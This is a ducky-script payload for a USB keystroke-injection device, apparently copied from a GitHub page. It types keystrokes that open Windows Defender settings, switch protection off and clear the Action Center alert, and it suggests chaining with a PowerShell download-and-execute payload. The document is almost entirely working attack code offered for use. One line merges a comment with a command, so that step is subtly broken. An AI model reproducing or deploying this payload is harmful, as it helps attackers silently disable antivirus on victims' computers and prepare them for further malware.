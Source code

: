 REM A ducky script that disables Windows defender, then clears the action center prompt
REM 
REM NOTE: this is only tested on the windows 10 1607 build, AKA the anniversary edition.
REM 
REM Most older machines will probably need more delay
REM 
REM This can be combined with other scripts. 
REM 
REM 
REM Preview: https://www.youtube.com/watch?v=XTF0U5jN1us
REM 
REM when combined with [[Payload - Windows 10 : Download and execute file with Powershell]]**:** https://www.youtube.com/watch?v=r6vwQ6QJujg

```
REM turn off windows defender then clear action center
REM author:judge2020
REM You take responsibility for any laws you break with this, I simply point out the security flaw
REM
REM start of script
REM
REM let the HID enumerate
DELAY 2000
ESCAPE
DELAY 100
CONTROL ESCAPE
DELAY 100
STRING Windows Defender Settings
ENTER
DELAY 2000
REM why TAB and HOME?
TAB
DELAY 50
REM why TAB and HOME?HOME
DELAY 50
ALT F4
DELAY 3200
REM windows + a = ????
GUI a 
DELAY 500
ENTER
DELAY 100
GUI a
```
